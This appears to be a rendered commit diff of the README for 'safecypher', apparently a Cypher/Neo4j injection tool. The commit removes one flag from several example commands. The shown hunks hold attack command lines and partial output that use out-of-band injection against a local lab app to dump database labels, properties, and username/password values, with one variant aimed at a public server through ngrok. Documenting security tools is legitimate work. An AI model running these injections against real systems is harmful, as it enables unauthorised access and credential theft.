

Before and after one commit to yufongg/safecypher, a Markdown page: README.md, 3 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -302,7 +302,7 @@ options:
 1. Dump labels
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --labels
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --labels
 
 	APOC detected, retrieving APOC version...
 	+------+----------------+
@@ -335,7 +335,7 @@ options:
 2. Dump properties in relation to label
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User --properties
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User --properties
 
 	[*] Label: User
 	[+] available properties [2]:
@@ -345,7 +345,7 @@ options:
 3. Dump values in relation to label and properties
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User -P username,password
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User -P username,password
 
 	[*] Label: User
 	[+] available properties [2]:
@@ -408,7 +408,7 @@ options:
 5. Dump everything
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
 	```
 
 #### Utilizing Ngrok for Public Testing
@@ -421,7 +421,7 @@ options:
 2. Change the interface to 'public'
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://public_server:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "<cookie>" --out-of-band --dump-all
+	└─$ python3 safecypher.py -u http://public_server:5000/search1 -p keyboard_name -i public -m POST -c "<cookie>" --out-of-band --dump-all
 	```
 
 ### In-Band (Blind Boolean)
````
Also changed, not shown: other parts of README.md (+1 -1 lines).
